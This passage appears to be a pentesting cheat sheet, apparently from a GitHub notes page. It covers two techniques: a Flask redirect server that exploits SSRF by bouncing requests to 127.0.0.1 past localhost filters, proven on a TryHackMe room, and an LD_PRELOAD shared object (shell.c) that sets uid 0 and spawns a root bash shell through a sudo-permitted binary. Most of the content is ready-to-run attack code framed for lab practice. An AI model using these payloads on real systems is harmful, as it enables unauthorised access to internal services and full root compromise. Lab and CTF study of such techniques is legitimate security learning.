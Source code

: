 ------------------

### REFERENCES-:

- [Twosix](https://twosixtech.com/blog/hijacking-the-ast-to-safely-handle-untrusted-python/)

------------------

### Exploiting SSRF with redirect

- See the code below,change the host keyword to your ip

```python3
#! /usr/bin/env python3
from flask import Flask, redirect,request
from urllib.parse import quote
app = Flask(__name__)    

@app.route('/',methods=['GET'])    
def root():
    port = request.args.get("port")
    file = request.args.get("file")
    if file != None:
        url =  f"http://127.0.0.1:{port}/{file}"
    else:
        url = f"http://127.0.0.1:{port}/"
    return redirect(url, code=301)
    
if __name__ == "__main__":
    app.run(host="10.9.1.30", port=8080)
```

  - Proof with THM's room `Londonbridge`,I passed in `&` in a url encoded format.This approach helps you bypass filtered strings like `localhost`,`127.0.0.1`,`0.0.0.0`.


![image](https://github.com/user-attachments/assets/145bb5e4-2778-46a9-8393-a84c993245cb)
  
----------------------

### ABUSING LD_PRELOAD

- A sample

![image](https://github.com/user-attachments/assets/5353735b-464b-4c3e-a03b-a3e553f3205f)

- Save this code as `shell.c`

```c
#include <stdio.h>
#include <sys/types.h>
#include <stdlib.h>
#define _GNU_SOURCE
void _init() 
{
    unsetenv("LD_PRELOAD");
    setgid(0);
    setuid(0);
    system("/bin/bash");
}
```
- Compile and run based on the sudo binary, in my case,it was `ping`.
